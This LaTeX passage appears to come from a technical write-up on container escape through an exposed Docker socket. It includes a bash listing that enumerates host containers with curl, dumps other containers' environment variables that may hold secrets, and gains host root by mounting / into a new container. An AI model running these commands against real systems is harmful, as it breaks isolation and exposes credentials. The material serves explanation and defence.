 No kernel exploit is involved at any stage. The daemon performs all privileged
operations using its own credentials.

\begin{lstlisting}[language=bash, caption={Demonstrating socket access from within a container}]
# Confirm socket is accessible from inside the container
ls -la /var/run/docker.sock

# List all containers on host without docker binary
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/json | python3 -m json.tool

# Dump env vars of any container (may contain secrets)
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/netdiag-app/json | \
  python3 -c "import sys,json; \
  [print(e) for e in json.load(sys.stdin)['Config']['Env']]"

# The escape --- spawn privileged container with host root
docker -H unix:///var/run/docker.sock run --rm \
  -v /:/hostfs alpine \
  chroot /hostfs sh -c 'id > /tmp/escaped.txt'
\end{lstlisting}


\section{The Docker API Over the Socket --- curl Examples}
\label{sec:api-curl}

The Docker CLI is not required to interact with the daemon. Because the protocol over
the socket is plain HTTP/1.1, any HTTP client capable of connecting to a Unix domain
socket---\texttt{curl}, \texttt{socat}, \texttt{wget}, or a custom script---is
sufficient. This has a significant implication for attack scenarios: the absence of a
\texttt{docker} binary inside a container does not prevent daemon exploitation if the
socket is accessible.

The API is versioned at \texttt{/v1.43/\ldots} but unversioned paths such as
\texttt{/containers/json} are accepted and resolved to the daemon's current API
version. Responses are JSON; the \texttt{python3 -m json.tool} pipeline provides
readable output without additional dependencies.

Container execution via the raw API is a two-step process: \texttt{POST
/containers/create} returns a container ID; \texttt{POST /containers/\{id\}/start}
launches it. The table below maps the operations relevant to the attack chain.

